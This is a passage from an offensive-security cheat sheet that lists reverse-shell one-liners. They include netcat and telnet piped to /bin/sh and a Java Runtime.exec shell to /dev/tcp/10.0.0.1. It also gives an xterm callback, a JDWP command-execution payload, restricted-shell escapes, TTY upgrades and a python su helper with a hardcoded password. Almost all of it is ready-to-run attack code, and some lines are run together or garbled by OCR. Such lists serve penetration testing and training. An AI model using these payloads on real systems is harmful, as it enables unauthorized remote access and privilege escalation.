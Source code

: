 #### Netcat without -e \#2 <a id="netcat-without-e-2"></a>

```bash
nc localhost 443 | /bin/sh | nc localhost 444telnet localhost 443 | /bin/sh | telnet localhost 444
```

#### Java <a id="java"></a>

```bash
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();
```

#### XTerm <a id="xterm"></a>

```bash
xterm -display 10.0.0.1:1
```

### JDWP RCE <a id="jdwp-rce"></a>

```java
print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("whoami").getInputStream())).readLine())
```

### Working with Restricted Shells <a id="working-with-restricted-shells"></a>

```bash
# rare cases
ssh bill@localhost ls -l /tmp
```

```bash
nice /bin/bash
```

### Interactive TTY Shells <a id="interactive-tty-shells"></a>

```bash
/usr/bin/expect sh
```

```python
python -c ‘import pty; pty.spawn(“/bin/sh”)’

# execute one command with su as another user if you do not have access to the shell. Credit to g0blin.co.uk
python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","-c","id","bynarr"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\n");time.sleep(0.1);print os.read(master,1024);'
```

### Uploading/POSTing Files Through WWW Upload Forms <a id="uploading-posting-files-through-www-upload-forms"></a>
